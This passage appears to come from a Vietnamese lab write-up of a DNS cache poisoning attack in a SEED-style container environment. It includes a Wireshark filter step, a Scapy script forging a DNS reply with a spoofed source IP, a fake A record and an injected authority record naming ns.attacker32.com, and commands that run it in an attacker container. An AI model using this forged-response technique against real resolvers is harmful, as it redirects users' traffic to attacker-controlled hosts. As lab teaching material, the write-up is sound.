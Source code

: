 - Filter với bộ lọc dns, ở WireShark ta thấy

![alt text](image-2.png)

Để cho dễ tìm kiếm thì mình có thể áp dụng bộ lọc `dns.qry.name==kakslaksld.example.com`

Từ hình ảnh, ta thấy địa chỉ của máy chủ dns trên internet là `199.43.133.53`

### 3. Tạo thông điệp response giả mạo

```py
#!/usr/bin/python
from scapy.all import *

name = 'hieuv.example.com'
domain = 'example.com'
ns = 'ns.attacker32.com'

Qdsec = DNSQR(qname=name)
Anssec = DNSRR(rrname=name, type='A', rdata='1.2.3.4', ttl=259200)
NSsec = DNSRR(rrname=domain, type='NS', rdata=ns, ttl=259200)
dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1,qdcount=1, ancount=1, nscount=1, arcount=0, qd=Qdsec, an=Anssec, ns=NSsec)

ip = IP(dst="10.61.7.53", src="199.43.133.53")
udp = UDP(dport=44444, sport=53, chksum=0)

reply = ip/udp/dns

with open('ip_resp.bin','wb') as f:
	f.write(bytes(reply))
```

- Lưu script vào attacker container
```bash
[12/17/24]seed@VM:~/.../attack$ docker cp gen_response.py ce:/tmp
```

- Kiểm tra ở phía attacker
```bash
root@VM:/tmp# ls
gen_query.py  gen_response.py  ip_req.bin
```

- Thực thi script
```bash
root@VM:/tmp# python3 gen_response.py
root@VM:/tmp# ls
gen_query.py  gen_response.py  ip_req.bin  ip_resp.bin
```
